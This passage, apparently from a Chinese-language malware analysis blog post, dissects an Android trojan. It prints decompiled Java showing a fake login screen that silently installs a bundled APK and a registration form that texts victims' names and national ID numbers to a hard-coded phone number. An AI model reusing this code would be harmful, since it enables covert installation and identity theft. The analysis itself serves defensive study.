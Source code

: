 很明显我们百度关键词`retrieveApkFromAssets`就会发现这些代码是模仿写的，实现在android中安装多个apk文件。

然后安装完木马后我们就会看到登录界面，看了一下代码，无论你怎么样都是灰登录失败的， 不过作者为了让他看起来像真的还对网络进行了判定：

	:::java
    public void onClick(View paramAnonymousView)
      {
        if (!MainActivity.this.detectApk("com.example.com.android.trogoogle"))
        {
          String str = MainActivity.this.getFilesDir().getAbsolutePath() + "/com.android.Trogoogle.apk";
          MainActivity.this.retrieveApkFromAssets(MainActivity.this, "com.android.Trogoogle.apk", str);
          MainActivity.this.showInstallConfirmDialog(MainActivity.this, str);
          return;
        }
        if (!MainActivity.this.goToNetWork())
        {
          Toast.makeText(MainActivity.this, "无法连接，请检查您的网络！", 0).show();
          return;
        }
        if (MainActivity.this.pass.getText().toString().length() >= 6)
        {
          Toast.makeText(MainActivity.this, "正在验证，请稍后...", 0).show();
          Toast.makeText(MainActivity.this, "密码错误或账号不存在！", 0).show();
          return;
        }
        Toast.makeText(MainActivity.this, "请输入正确的账号或密码", 0).show();
      }

然后你发现登录不了自然就点击了注册，这样就到了注册页面了。引导很顺利，说明作者有用心。

不过在mainavtivity中发现了这样一行代码：该软件监听了包管理的广播，当软件安装有变化的时候就会收到广播，每次收到该广播后就看看是否是安装了自己的木马，如果安装了木马就发短信到作者自己的手机告诉他有人中毒了，然后作者的手机号就这么暴露了` SmsManager.getDefault().sendTextMessage("18670259904", null, " Tro instanll Ok", null, null);`
查询可知，这是湖南邵阳的电话。

然后就是注册的activity，

代码:

    :::java
	String str = RegisterActivity.this.idEditText.getText().toString();
        if (str.length() != 18)
        {
          Toast.makeText(RegisterActivity.this, "请输入正确的身份证号", 0).show();
          return;
        }
        int i = Integer.parseInt(str.substring(6, 10));
        int j = Integer.parseInt(str.substring(10, 12));
        int k = Integer.parseInt(str.substring(12, 14));
        if ((i > 1996) || (i < 1980) || (j > 12) || (j == 0) || (k == 0) || (k > 31))
        {
          Toast.makeText(RegisterActivity.this, "请输入正确的身份证号", 0).show();
          return;
        }
        if ((RegisterActivity.this.nameEditText.getText().toString().length() < 2) || (RegisterActivity.this.nameEditText.getText().toString().length() > 4))
        {
          Toast.makeText(RegisterActivity.this, "请输入正确的姓名", 0).show();
          return;
        }
        SmsManager.getDefault().sendTextMessage("18670259904", null, "得到主机，姓名：" + RegisterActivity.this.nameEditText.getText().toString() + "，身份证号为：" + str, null, null);
        Toast.makeText(RegisterActivity.this, "注册成功！", 0).show();
